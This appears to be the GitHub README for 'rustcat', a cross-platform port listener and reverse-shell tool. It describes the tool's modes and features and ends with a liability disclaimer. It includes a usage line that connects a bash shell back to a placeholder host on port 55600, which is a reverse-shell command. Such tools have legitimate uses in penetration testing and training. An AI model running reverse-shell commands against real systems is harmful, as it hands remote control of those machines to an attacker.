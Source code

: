 <div align="center">
      <h1>rustcat - The modern port listener and reverse shell </h1>
</div>

<p align="center">
	<img alt="GitHub All Releases" src="https://img.shields.io/github/downloads/robiot/rustcat/total?label=GitHub%20Downloads" />
  	<a href="https://aur.archlinux.org/packages/rustcat"><img alt="AUR version" src="https://img.shields.io/aur/version/rustcat" /></a>
  	<img alt="GitHub Issues" src="https://img.shields.io/github/issues/robiot/rustcat.svg" />
  	<img alt="GitHub Contributors" src="https://img.shields.io/github/contributors/robiot/rustcat" /></a>
</p>

## What is Rustcat
Rustcat is an easy to use port listener and reverse shell for Linux, MacOS, and Windows aimed to be easy to use and accessible.

![image](https://user-images.githubusercontent.com/68228472/184684103-87bf3af8-0607-4789-b3a2-09ce67efce55.jpg)

## Modes
- Listen mode (listen);
- Reverse shell mode (connect);

## Featurees
- Command history & Tab completion (Interactive mode);
- CTRL-C blocking;
- Colors;
- Everything easy;

## Installing
Check out the [Installation Guide](https://github.com/robiot/rustcat/wiki/Installation-Guide). Or if you want to have it portable, check out the [latest release](https://github.com/robiot/rustcat/releases/latest)

## Usage
The most basic and useful example to start listening on a port would be (you can even run vim inside rustcat with this):
```
rcat listen -ib 55600
```
and to connect:
```
rcat connect -s bash the.0.0.ip 55600
```

For some more basic usage, check [here](https://github.com/robiot/rustcat/wiki/Basic-Usage)

## Disclaimer
This tool may be used for educational purposes only. Users take full responsibility for any actions performed using this tool. The author accepts no liability for damage caused by this tool. If these terms are not acceptable to you, then do not use this tool.
